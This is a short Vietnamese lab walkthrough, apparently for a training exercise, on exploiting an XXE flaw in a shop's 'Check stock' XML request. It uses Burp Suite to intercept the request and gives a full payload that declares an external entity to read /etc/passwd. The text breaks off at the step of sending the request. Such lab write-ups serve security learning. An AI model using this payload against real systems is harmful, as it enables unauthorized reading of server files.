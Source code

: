 - Chức năng Check stock nhận vào một payload XML.
- Ứng dụng parse XML nhưng không kiểm soát ENTITY => dễ bị XXE.
- Mục tiêu: Đọc nội dung file `/etc/passwd` từ hệ thống server.

Steps: 

**Truy cập chức năng Check stock**

- Truy cập một trang sản phẩm bất kỳ.
- Nhấn **"Check stock"**.
- Dùng **Burp Suite** để **intercept** request đó.

![image-20250803124725852](./image/image-20250803124725852.png)

**Thêm khai báo ENTITY để đọc file hệ thống**

Thêm đoạn payload trước phần `<stockCheck>`:

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Sau đó sửa nội dung thành:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Gửi request và kiểm tra:
